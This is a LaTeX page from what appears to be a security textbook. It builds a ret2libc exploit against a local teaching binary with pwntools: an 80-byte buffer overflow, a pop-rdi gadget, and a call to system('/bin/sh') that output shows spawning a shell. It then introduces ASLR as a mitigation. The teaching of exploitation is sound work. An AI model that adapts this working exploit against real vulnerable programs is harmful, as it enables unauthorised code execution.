 \documentclass{article}
\begin{document}
Each is in agreement: "/bin/sh" is located at \texttt{0x4a2168}. We could
find the location of \texttt{system()} using \texttt{gdb}, but we can actually
find that programmatically as well.

\begin{lstlisting}
> python
Python 2.7.12 (default, Nov 20 2017, 18:23:56) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> e = ELF("./ret2libc")
[*] '/home/devneal/Security/REFE/textbook/example_code/ret2libc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
>>> hex(e.symbols["system"])
'0x40f680'
>>> 
>
\end{lstlisting}

We now have enough information to write an exploit. One possible implementation
is below.

\begin{lstlisting}
#!/usr/bin/env python
from pwn import *

e = ELF("./ret2libc")
system_address = e.symbols["system"]
bin_sh_address = e.search("/bin/sh").next()

payload = 'A' * 80
# 0x0000000000401526 : pop rdi ; ret
payload += p64(0x401526) + p64(bin_sh_address)
payload += p64(system_address)

p = process("./ret2libc")
p.sendline(payload)
p.interactive()
\end{lstlisting}

We can verify that running the exploit spawns a shell.

\begin{lstlisting}
> ./ret2libc_solution.py 
[*] '/home/devneal/Security/REFE/textbook/example_code/ret2libc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './ret2libc': pid 13111
[*] Switching to interactive mode
Enter the password:
You don't have permission to perform this action.
$ whoami
devneal
$  
\end{lstlisting}

\subsection{ASLR}
\subsubsection{ASLR}
ASLR, or Address Space Layout Randomization, is a mitigation technique in which
the locations of the stack, heap, and shared libraries are randomized at
runtime. This makes ROP and ret2libc attacks more difficult, since the attacker
can't reliably jump to those parts of the code. However, ASLR does not randomize
code within a single section, which means in particular that it does not
randomize code within libc. This means that if an attacker can leak the
address of any library function they can then learn the locations of all of the
code in the library.
\end{document}
